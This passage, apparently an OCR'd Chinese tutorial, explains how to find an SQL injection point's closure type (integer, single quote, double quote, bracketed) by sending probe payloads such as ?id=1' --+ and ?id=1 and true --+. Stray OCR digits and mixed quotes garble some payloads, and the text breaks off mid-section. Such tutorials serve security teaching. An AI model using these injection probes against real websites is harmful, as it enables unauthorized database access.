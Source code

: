 ```
?id=1’
?id=1”
12
```

1如果都报错，则为整形闭合。

2如果单引号报错，双引号不报错。
然后尝试

```
?id=1' --+
?id=1' #
12
```

无报错则单引号闭合。
报错则单引号加括号。

3如果单引号不报错，双引号报错。
然后尝试

```
?id=1" --+
?id=1" #
12
```

无报错则双引号闭合。
报错则双引号加括号。

------

1

输入（其中id=1,1是正确的数据库存在的值），正常回显

```
?id=1 and true --+
或者
?id=true and true --+
123
```

输入，错误回显

```
?id=1 and false --+
或者
?id=true and false --+
123
```

那么就是整形闭合

2

输入（其中id=1,1是正确的数据库存在的值），正常回显

```
?id=1’ and true --+
或者
?id=true‘ and true --+
123
```
